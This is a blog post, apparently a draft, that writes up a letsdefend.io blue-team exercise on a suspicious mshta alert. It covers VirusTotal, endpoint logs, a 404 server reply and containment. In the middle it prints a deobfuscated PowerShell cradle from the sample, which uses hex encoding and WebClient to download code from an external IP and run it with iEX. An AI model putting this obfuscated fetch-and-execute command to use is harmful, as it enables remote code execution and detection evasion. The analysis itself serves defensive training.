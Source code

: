 ```yaml
---
layout: post
published: false
title: [write up] letsdefend.io: suspicious mshta behavior
author: admin
comments: true
date: '2022-04-15 23:00'
categories:
  - DFIR
---
```


I've been trying out letsdefend.io for a couple of week, and here's a write up of one of the challenge. If you've never tried letsdefend, its a platform to hone your blue teaming skill, they got this SIEM like apps and you act like an analyst, finding IOC and deciding escalation etc. so here goes.
<!--more-->

![mshta behaviour](/images/wup_ld.png)

this is what the case looked like, basically a host execute a hta thus an alert is triggered. Our job is to see what really happened and do the intended playbook exercise. Some things that we can check to help with analysis are the IP address (we'll try command history & proccess history we found at the endpoint security tab), and the hash (virustotal). Afterward we are gonna decide on containment (eradication and recovery) and last the lesson learned from said incident.

#### virustotal

[virustotal](https://www.virustotal.com/gui/file/886095c7861a068d1ee603c71cb161f256941e802e743fe2161f30013947a2f1/detection)

virustotal result are bad, 23/58 malicious flag. if we are interested we could try to find the file and do more analysis, but for now I think we can move to endpoint security tabs and do more analysis there.

#### endpoint security

![wup_endpoint](/images/wup_endpoint.png)

We use end point security to find out what is really happening in the host 172.16.17.38. From the screenshot we can see that the first command line that trigger the alert, followed by weird command.

The first command is what triggered the alert. Mshta is a trusted Microsoft binary that in this case is abused to proxy for execution of the PS1.hta file. 
(https://attack.mitre.org/techniques/T1218/005/)

Tried a bit of magic at the second command, so down here, we can see a more bearable presentation. $H3-H6 with the help of $H1 just basically hex that reads "Downloadstring". $H2 was a glorified "New-Object Net.WebClient". and $H8 puts them all together to form an old fashion download using powershell from address mentioned in $H8 (http://193.142.58.23/Server.txt).

```bash
function H1($i) 
{$r = '' ; for ($n = 0; $n -Lt $i.LengtH; $n += 2)
{$r += [cHar][int]('0x' + $i.Substring($n,2))}return $r};
$H2 = (new-object ('{1}{0}{2}' -f'WebCL','net.','ient'));
$H3 = H1 '446f776E';
$H4 = H1 '6C6f';
$H5 = H1 '616473747269';
$H6 = H1 '6E67';
$H7 = $H3+$H4+$H5+$H6;
$H8 = $H2.$H7('http://193.142.58.23/Server.txt');
iEX $H8
```

#### log management

After seeing what the script do, we best check log management and try to see did the server reply with anything.

![wup_endpoint](/images/wup_logmgmt.png)

Appereantly the server reply with 404, so no response arrived for the host (172.16.17.38) because the server (or the inteded file) is dead/ not there.

#### containment and lesson learned

since it's definetly a malicious script (but stopped due to the C2 server is dead), it's best to contain the host. We can do this by going to endpoint security and click the request containment. 

The IP address, and URL and also the md5 hash of the executed file can then be use as IOC when we did the playbook and also close the case.



